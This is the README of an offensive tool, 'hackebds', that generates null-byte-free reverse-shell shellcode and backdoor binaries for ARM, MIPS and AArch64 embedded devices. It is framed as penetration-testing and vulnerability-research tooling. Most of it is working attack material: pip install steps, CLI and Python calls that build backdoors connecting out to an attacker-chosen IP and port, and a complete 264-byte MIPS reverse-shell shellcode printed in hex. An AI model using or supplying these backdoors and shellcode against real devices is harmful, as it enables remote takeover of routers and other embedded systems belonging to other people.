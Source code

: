 # introduction

## foreword

>In the process of penetration and vulnerability mining of embedded devices, many problems have been encountered. One is that some devices do not have telnetd or ssh services to obtain an interactive shell, and the other is that memory corruption vulnerabilities such as stack overflow are usually Null bytes are truncated, so it is more troublesome to construct reverse_shellcode, so this tool was developed to exploit the vulnerability. This tool is developed based on the PWN module，language update python3,please use it under python3

## fuction

This tool is embedded in the security test of the device. There are two main functions:

1.  Generate **backdoor programs** of various architectures. The backdoor program is packaged in shellless pure shellcode and is smal in size.**Armv5, Armv7, Armv8, mipsel, mips are now supported, and they are still being updated**

2.  Generate **reverse_shell shellcode** of various architectures during the exploit process, and no null bytes, which facilitates the exploitation of memory corruption vulnerabilities on embedded devices. **Armv5, Armv7, Armv8, mipsel, mips are now supported, and they are still being updated**

## install (1)  Highly recommended！！Because the source code compilation may not be updated in time，Please install the latest
**Since it has been updated to python3, please use it under python3**

**pip install hackebds==0.0.9**

```
apt search binutils | grep arm (The arm here can replace the corresponding architecture required)
apt install binutils-arm-linux-gnueabi/hirsute
pip install hackebds==0.0.9
....
```
#### Instructions for use
When importing this module will import the pwn module

1. Generate backdoor programs of various architectures, encapsulate pure shellcode, and successfully connect to the shell
```
>>> from hackebds import *
>>> mipsel_backdoor(reverse_ip,reverse_port)
>>> mips_backdoor(reverse_ip,reverse_port)
>>> aarch64_backdoor(reverse_ip,reverse_port)
>>> armelv5_backdoor(reverse_ip,reverse_port)
>>> armelv7_backdoor(reverse_ip,reverse_port)
>>> armebv5_backdoor(reverse_ip,reverse_port)
>>> armebv7_backdoor(reverse_ip,reverse_port)
>>> mips64_backdoor(reverse_ip,reverse_port)
>>> mips64el_backdoor(reverse_ip,reverse_port)
```
expample:
```
>>> mipsel_backdoor("127.0.0.1",5566)
mipsel_backdoor is ok in current path ./
>>> 
```
2. Generates the use-back shellcode (no free) null bytes corresponding to various architectures

```
>>> from hackebds import *
>>> mipsel_reverse_sl(reverse_ip,reverse_port)
>>> mips_reverse_sl(reverse_ip,reverse_port)
>>> aarch64_reverse_sl(reverse_ip,reverse_port)
>>> armelv5_reverse_sl(reverse_ip,reverse_port)
>>> armelv7_reverse_sl(reverse_ip,reverse_port)
>>> armebv5_reverse_sl(reverse_ip,reverse_port)
>>> armebv7_backdoor(reverse_ip,reverse_port)
>>> mips64_reverse_sl(reverse_ip,reverse_port)
>>> mips64el_reverse_sl(reverse_ip,reverse_port)
```
example:
```
>>> from hackebds import *
>>> shellcode=mipsel_reverse_sl("127.0.0.1",5566)
[+] No NULL byte shellcode for hex(len is 264):
\xfd\xff\x19\x24\x27\x20\x20\x03\xff\xff\x06\x28\x57\x10\x02\x34\xfc\xff\xa4\xaf\xfc\xff\xa5\x8f\x0c\x01\x01\x01\xfc\xff\xa2\xaf\xfc\xff\xb0\x8f\xea\x41\x19\x3c\xfd\xff\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xff\xfe\x19\x3c\x80\xff\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\xfc\xff\xb0\xaf\xfc\xff\xa4\x8f\x20\x28\xa0\x03\xef\xff\x19\x24\x27\x30\x20\x03\x4a\x10\x02\x34\x0c\x01\x01\x01\xf7\xff\x85\x20\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfe\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfd\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf8\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\x20\x20\xa0\x03\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf4\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xfc\xff\xa0\xaf\xf4\xff\xbd\x27\xff\xff\x05\x28\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\xfb\xff\x19\x24\x27\x28\x20\x03\x20\x28\xa5\x03\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\x20\x28\xa0\x03\xff\xff\x06\x28\xab\x0f\x02\x34\x0c\x01\x01\x01
```
## install (2)
  python2 install pwn
```
pip install pwn
```

​	This tool is developed in python language, so converting python to ELF can be done through **nuitka**

```shell
nuitka hackEmbedded_tool.py
```

​	If possible, put the modules that generate various backdoors and reverse_shellcode under python's site-packages

```
sudo cp ./generate_* {your_dir}/site-packages
sudo cp ./extract_shellcode.py {your_dir}/site-packages
```

You can view the path in sys.path under the python terminal

```
Python 2.7.17 (default, Mar 18 2022, 13:21:42) 
[GCC 7.5.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import sys
>>> sys.path
```

## Instructions for use for "install (2)"

​	To use the generated backdoor or reverse_shellcode, you need to specify the ip address, port number, assembly architecture, endian （Default is armv7）

​	**Here is the example that generates reverse_shellcode without null bytes**

```
hackEmbedded_tool -reverse_ip 192.168.7.1 -reverse_port 444 -arch arm -endian little -exploit_shellcode 1
```
![image-20220428161403858](./img/image-20220428161403858.png)

**This is the usage list for generating the backdoor file of the corresponding schema**
```
hackEmbedded_tool -reverse_ip 192.168.7.1 -reverse_port 444 -arch arm -endian little -backdoor_file 1
```

![image-20220428161757170](./img/image-20220428161757170.png)

**You can view tool information with -h**

![image-20220428161847829](./img/image-20220428161847829.png)

## chips and architectures
Tests can leverage chips and architectures

Mips:
MIPS 74kc V4.12 big endian
MIPS 24kc V5.0  little endian

Armv7:
Allwinner(全志)V3s

Armv8:
Qualcomm Snapdragon 660

## updating
 2022.4.19 Added support for aarch64 null-byte reverse_shellcode
 
 2022.4.30 Reduced amount of code using functions and support python3
 
 2022.5.5 0.0.8 version Solved the bug that mips_reverse_sl and mipsel_reverse_sl were not enabled, added mips64_backdoor, mips64_reverse_sl generation and mips64el_backdoor, mips64el_reverse_sl generation
 
 2022.5.21 0.0.9 version changed the generation method of armel V5 backdoor and added the specified generation of riscv-v64 backdoor

## One-click build environment

To be added

